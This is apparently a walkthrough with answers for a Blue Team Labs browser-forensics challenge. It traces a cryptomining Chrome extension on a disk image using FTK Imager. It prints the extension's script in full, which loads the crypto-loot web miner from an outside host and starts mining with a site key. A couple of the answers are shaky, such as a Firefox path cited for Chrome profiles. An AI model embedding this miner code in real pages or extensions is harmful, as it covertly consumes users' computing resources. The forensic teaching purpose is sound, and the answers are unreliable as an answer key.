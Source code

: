# Browser Forensics - Cryptominer

Link: [BTLO](https://blueteamlabs.online/home/challenge/browser-forensics-cryptominer-aa00f593cb)

## Requirements

- FTK Imager

## Questions

###How many browser-profiles are present in Google Chrome? (1 points)

`2`

Open the provided image as Evidence Item with the FTK Imager and navigate through the image to `PHYSICALDRIVE:0\[root]\Users\IEUser\App Data\Roaming\Mozilla\Firefox\Profiles`

###What is the name of the browser theme installed on Google Chrome? (1 points)

`Earth in space`

Nabigate to `PHYSICALDRIVE:0\[root]\Users\IEUser\App Data\Local\Google\Chrome\User Data\Default\Extensions\iiihlpikmpijdopbaegjibndhpgjmjfe\1.6_O\manifest.json` where you can find details about the theme:

```
{
   "app": {
      "launch": {
         "web_url": "http://atavi.com/browser-themes/?from=chrome-themes&tid=earth_in_space"
      },
      "urls": [ "http://atavi.com/browser-themes/" ]
   },
   "default_locale": "ru",
   "description": "__MSG_appDesc__",
...
}
```

### Identify the Extension ID and Extension Name of the cryptominer (2 points)

`egnfmleidkolminhjlkaomjefheafbbb DFP Cryptocurrency Miner`

Check the extension details in the list and this one sticked out with following code:

```
<script src="https://crypto-loot.com/lib/miner.min.js"></script>
<script>
var miner=new CryptoLoot.Anonymous('b23efb4650150d5bc5b2de6f05267272cada06d985a0',
        {
        threads:3,autoThreads:false,throttle:0.2,
        }
);
miner.start();
</script>
<script>
	// Listen on events
	miner.on('found', function() { /* Hash found */ })
	miner.on('accepted', function() { /* Hash accepted by the pool */ })

	// Update stats once per second
	setInterval(function() {
		var hashesPerSecond = miner.getHashesPerSecond(20);
		var totalHashes = miner.getTotalHashes(256000000);
		var acceptedHashes = miner.getAcceptedHashes();

		// Output to HTML elements...
	}, 1000);
</script>
```

### What is the description text of this extension? (1 points)

`Allows staff members to mine cryptocurrency in the background of their web browser`

Can be found in the manifest file.

### What is the name of the specific javascript web miner used in the browser extension? (1 points)

`crypto-loot`

From the exported java code above.

### How many hashes is the crypto miner calculating per second?

`20`

From the exported java code above.

### What is the public key associated with this mining activity? (1 points)

`b23efb4650150d5bc5b2de6f05267272cada06d985a0`

From the exported java code above.

### What is the URL of the official Twitter page of the javascript web miner?

`twitter.com/CryptoLootMiner`

From their webpage https://twitter.com/CryptoLootMiner
